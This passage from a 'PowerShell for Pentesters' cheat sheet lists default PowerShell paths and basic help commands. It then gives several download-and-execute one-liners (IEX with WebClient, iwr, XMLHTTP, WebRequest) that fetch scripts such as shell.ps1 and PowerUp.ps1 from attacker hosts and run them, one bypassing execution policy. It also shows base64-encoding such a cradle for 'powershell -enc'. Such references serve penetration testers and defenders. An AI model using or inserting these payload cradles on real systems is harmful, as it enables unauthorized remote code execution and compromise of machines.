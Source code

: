 
# PowerShellfor Pentesters

## Default PowerShell locations

```powershell
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```

## Basic PS commands to start


```powershell
Get-Help * #List everything loaded
Get-Help process #List everything containing "process"
Get-Help Get-Item -Full #Get full helpabout a topic
Get-Help Get-Item -Examples #List examples
Import-Module <modulepath>
Get-Command -Module <modulename>
```

## Download & Execute

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile - #From cmd download and execute
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
iex (iwr '10.10.14.9:8000/ipw.ps1') #From PSv3

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://10.10.14.9:8000/ipw.ps1',$false);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://10.10.14.9:8000/ipw.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Using b64 from linux

```powershell
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

# Download

##  System.Net.WebClient
